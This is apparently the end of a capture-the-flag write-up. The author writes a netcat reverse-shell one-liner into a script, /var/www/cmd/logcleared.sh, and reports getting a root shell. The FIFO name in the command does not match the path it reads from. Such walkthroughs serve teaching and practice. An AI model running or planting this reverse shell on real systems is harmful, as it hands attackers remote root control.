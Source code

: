 
    echo 'rm /tmp/fuck;mkfifo /tmp/fuck;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.x 1234 >/tmp/fuck' > /var/www/cmd/logcleared.sh

Since the shell I was currently running was named `f` I had to name the new reverse shell file to something else If I didn’t change the reverse shell name I would assume that it would append to the reverse shell file and some corruption would happen. I opened a new nc instance on port 1234 and after a few seconds were get shell on the system as root!

![](https://cdn-images-1.medium.com/max/1000/1*62klzzrXYup7nFDEbZVXOA.png)

![](https://cdn-images-1.medium.com/max/800/1*CNv4IjYVeBjdOBGvHJV0Ng.gif)


You can follow me on twitter [@0katz](https://www.twitter.com/0katz)

## #TogetherWeHitHarder

